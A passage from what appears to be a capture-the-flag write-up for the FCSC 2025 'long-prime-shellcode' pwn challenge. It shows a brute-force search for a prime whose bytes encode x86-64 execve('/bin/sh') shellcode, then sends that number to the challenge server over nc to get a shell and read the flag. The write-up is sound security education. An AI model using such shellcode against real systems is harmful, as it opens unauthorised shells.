 ```
Failed... trying [48, 8d, 3d, 0f, 00, 00, 00, 48, 31, f6, 48, 31, d2, 48, c7, c0, 3b, 00, 00, 00, 0f, 05, 2f, 62, 69, 6e, 2f, 73, 68, 00, 46, 93, 77, ff, 65, b5, 88, be, ad, 6f, f9, e5, f3, 2b, 5d, ce, 03, 7d, 5a, 34, 19, de, ed, 19, 13, e6, a8, 14, c9, 7a, c9, 99, 1e, 81, 7f, 44, c0, c8, 6c, 44, db, 69, 1e, f9, fd, 5f, c8, b0, 87, 61, 80, 9e, 3f, 29, 17, c6, 3e, 21, 27, 46, 1a, 3a, 9c, 2b, 7a, 09, f2, 2b, c4, a9, 1e, e9, 96, e3, d5, ac, 3a, 34, 62, e1, 5d, 06, c6, 45, 32, c4, 1d, c7, 76, 3d, c5, 98, 98, 6f, 2d, c3, 4b, 2d, e5]

<..snipped..>

Failed... trying [48, 8d, 3d, 0f, 00, 00, 00, 48, 31, f6, 48, 31, d2, 48, c7, c0, 3b, 00, 00, 00, 0f, 05, 2f, 62, 69, 6e, 2f, 73, 68, 00, 46, 93, 77, ff, 65, b5, 88, be, ad, 6f, f9, e5, f3, 2b, 5d, ce, 03, 7d, 5a, 34, 19, de, ed, 19, 13, e6, a8, 14, c9, 7a, c9, 99, 1e, 81, 7f, 44, c0, c8, 6c, 44, db, 69, 1e, f9, fd, 5f, c8, b0, 87, 61, 80, 9e, 3f, 29, 17, c6, 3e, 21, 27, 46, 1a, 3a, 9c, 2b, 7a, 09, f2, 2b, c4, a9, 1e, e9, 96, e3, d5, ac, 3a, 34, 62, e1, 5d, 06, c6, 45, 32, c4, 1d, c7, 76, 3d, c5, 98, 98, 6f, 2d, c3, 4b, 2d, e5, 71, 85, a4, 5f, bf, 4c, 7d, 93, 5f, 9a, b8, 62, 8b, c1, 3e, e5]
Found number!
Number = [48, 8d, 3d, 0f, 00, 00, 00, 48, 31, f6, 48, 31, d2, 48, c7, c0, 3b, 00, 00, 00, 0f, 05, 2f, 62, 69, 6e, 2f, 73, 68, 00, 46, 93, 77, ff, 65, b5, 88, be, ad, 6f, f9, e5, f3, 2b, 5d, ce, 03, 7d, 5a, 34, 19, de, ed, 19, 13, e6, a8, 14, c9, 7a, c9, 99, 1e, 81, 7f, 44, c0, c8, 6c, 44, db, 69, 1e, f9, fd, 5f, c8, b0, 87, 61, 80, 9e, 3f, 29, 17, c6, 3e, 21, 27, 46, 1a, 3a, 9c, 2b, 7a, 09, f2, 2b, c4, a9, 1e, e9, 96, e3, d5, ac, 3a, 34, 62, e1, 5d, 06, c6, 45, 32, c4, 1d, c7, 76, 3d, c5, 98, 98, 6f, 2d, c3, 4b, 2d, e5, 71, 85, a4, 5f, bf, 4c, 7d, 93, 5f, 9a, b8, 62, 8b, c1, 3e, e5, 3d] = 1136168228744543667092687598228118685733169310052882866571434529108670639140276558090927371324394613684412034068822809408889679304907637098415128356906066471131711077113554360984959205701023760002121431057599946827011250945948208872787397503097032067020434475433028242919456722139980945179703776777738662894365740672096622488149105027122866165223712061
rm /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.elf /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.o
```

Now let's give this number to the binary:

```
➜  02-long-prime-shellcode nc chall.fcsc.fr 2100 
1136168228744543667092687598228118685733169310052882866571434529108670639140276558090927371324394613684412034068822809408889679304907637098415128356906066471131711077113554360984959205701023760002121431057599946827011250945948208872787397503097032067020434475433028242919456722139980945179703776777738662894365740672096622488149105027122866165223712061
ls
flag.txt
long-prime-shellcode
cat flag.txt
FCSC{41948264d0f83ddb2ececa5267e30cb4ce7fd6c7bab2f7b2b935adfcc99b5662}
```
